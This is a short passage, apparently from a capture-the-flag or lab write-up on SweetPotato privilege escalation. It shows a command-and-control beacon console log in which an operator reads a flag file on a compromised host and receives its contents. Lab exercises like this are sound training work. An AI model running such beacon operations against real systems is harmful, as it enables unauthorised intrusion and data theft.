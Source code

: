 pulled from [[3. SweetPotato Privilege Escalation]]
```powershell
[02/18 06:53:06] beacon> type flag5.txt
[02/18 06:53:06] [-] Unknown command: type flag5.txt
[02/18 06:53:14] beacon> shell type flag5.txt
[02/18 06:53:14] [*] Tasked beacon to run: type flag5.txt
[02/18 06:53:14] [+] host called home, sent: 45 bytes
[02/18 06:53:15] [+] received output:
9ac4d80f6477e475bd3e1e4b0058e2f7
```